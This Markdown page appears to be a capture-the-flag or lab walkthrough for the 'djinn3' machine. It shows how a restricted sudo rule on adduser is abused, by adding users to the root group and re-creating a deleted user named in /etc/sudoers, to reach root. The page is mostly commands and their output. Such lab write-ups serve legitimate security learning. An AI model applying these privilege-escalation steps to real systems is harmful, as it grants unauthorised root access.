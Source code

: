 ```yaml
---
layout: default
title: Add User
parent: Sudo
nav_order: 5
---
```


# Add user

---

## Check Sudo Permissions

```bash
saint@djinn3:~$ sudo -l
Matching Defaults entries for saint on djinn3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User saint may run the following commands on djinn3:
    (root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin

```

### Add User with Sudo Permissions

```bash
saint@djinn3:~$ sudo /usr/sbin/adduser kamino --uid 0
adduser: The UID 0 is already in use.

```

The UID of 0 is already in use.

Instead add user with --gid 0

```bash
saint@djinn3:~$ sudo /usr/sbin/adduser kamino --gid 0
Adding user `kamino' ...
Adding new user `kamino' (1003) with group `root' ...
Creating home directory `/home/kamino' ...
Copying files from `/etc/skel' ...
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
Changing the user information for kamino
Enter the new value, or press ENTER for the default
        Full Name []:
        Room Number []:
        Work Phone []:
        Home Phone []:
        Other []:
Is the information correct? [Y/n]

kamino@djinn3:/home/saint$ id
uid=1003(kamino) gid=0(root) groups=0(root)


```

We are getting close, but we still are not root because we don't have the effective UID of 0.

Let's see if we can access the Sudoers file.

```bash
kamino@djinn3:/home/saint$ cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:
# If you need a huge list of used numbers please install the nmap package.

saint ALL=(root) NOPASSWD: /usr/sbin/adduser, !/usr/sbin/adduser * sudo, !/usr/sbin/adduser * admin

jason ALL=(root) PASSWD: /usr/bin/apt-get
#includedir /etc/sudoers.d

```

At the very bottom we can see the user _jason_ that has root access to the command _/usr/bin/apt-get_

Since this user is not currently in _/etc/passwd_ they must been a deleted user.

If we can _su_ to _jason_ then we can pivot to root.

Switch back to _saint_ and add _jason_ back with GID 0

```bash
kamino@djinn3:/home/saint$ exit
exit
saint@djinn3:~$ sudo /usr/sbin/adduser jason --gid 0
Adding user `jason' ...
Adding new user `jason' (1004) with group `root' ...
Creating home directory `/home/jason' ...
Copying files from `/etc/skel' ...
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
Changing the user information for jason
Enter the new value, or press ENTER for the default
        Full Name []:
        Room Number []:
        Work Phone []:
        Home Phone []:
        Other []:
Is the information correct? [Y/n]
```
